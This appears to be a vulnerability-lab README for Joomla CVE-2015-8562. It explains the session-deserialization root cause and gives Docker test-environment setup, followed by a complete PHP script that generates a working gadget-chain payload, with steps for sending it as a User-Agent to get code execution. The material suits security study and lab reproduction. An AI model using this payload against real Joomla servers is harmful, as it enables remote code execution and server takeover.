


# Joomla 3.4.5 Deserialization Vulnerability (CVE-2015-8562)

The root cause of this vulnerability is that the version before PHP5.6.13 reads the stored session. If the deserialization error occurs, the current piece of data will be skipped and the next piece of data will be deserialized. Joomla stores the session in the Mysql database. The encoding is utf8. When we insert 4 bytes of utf8 data, it will cause truncation. The truncated data fails when deserialized, and finally triggers the deserialization vulnerability.

Through the Gadget in Joomla, the result of arbitrary code execution can be caused.

For details, please refer to:

 - https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html

Impact version

 - Joomla 1.5.x, 2.x, and 3.x before 3.4.6
 - PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45

## test environment

Compile and start the test environment:

```
Docker-compose build
Docker-compose up -d
```

After launching, visit `http://your-ip:8080/` to see the Joomla installation interface. The database information of the current environment is:

 - Database address: mysql: 3306
 - User: root
 - Password: root
 - Database name: joomla

Fill in the above information and install it normally.

## Vulnerability recurrence

Then we visit the target home page first, and write down the cookie returned by the server:


Then use the following script to generate the POC: ([Online Run] (http://sandbox.onlinephpfunctions.com/code/17e7080841ccce12f6c6e0bb1de01b9e390510bd))

```php
<?php
Class JSimplepieFactory {
}
Class JDatabaseDriverMysql {

}
Class SimplePie {
    Var $sanitize;
    Var $cache;
    Var $cache_name_function;
    Var $javascript;
    Var $feed_url;
    Function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

Class JDatabaseDriverMysqli {
    Protected $a;
    Protected $disconnectHandlers;
    Protected $connection;
    Function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
$poc = serialize($a);

$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

Echo "123}__test|{$poc}\xF0\x9D\x8C\x86";
```



The generated POC is used as the User-Agent, and the cookie obtained by the first step is sent. This time, the package is sent, and the dirty data enters the Mysql database. Then the same package is sent again and our code is executed:

